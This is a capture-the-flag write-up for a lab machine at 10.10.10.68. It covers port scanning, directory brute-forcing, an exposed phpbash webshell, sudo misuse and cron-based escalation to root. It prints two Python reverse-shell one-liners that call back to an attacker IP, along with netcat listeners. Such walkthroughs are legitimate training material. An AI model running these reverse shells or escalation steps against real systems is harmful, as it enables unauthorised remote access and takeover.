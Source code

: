 ```
nmap -sV -sC {victim ip}
```

We find one port open, port 80. Visiting the page, its a blog.

We run gobuster as a directory search.

```
gobuster -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
We find `/dev` and which shows a parent directory with several files. If we click on `phpbash.php` we get a webshell. We get the user `www-data` and can find the file `user.txt`.

We run netcat as a listener `nc -lnvp 1235` 

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This will get us a shell. If we run `sudo -l`, we find `scripmanager` does not need a password to run commands. Running the following commands logs us in as `scriptmanager`

```
sudo -u scriptmanager /bin/bash
```
We run another netcat listener,

```
nc -lnvp 31337
```
Then run the following reverse shell into the file `.exploit.py`, the file will be executed by a cronjob every few minutes.

```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.157\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py
```
In the listener on port 31337 will get a shell, just `cat /root/root.txt` to get the flag.




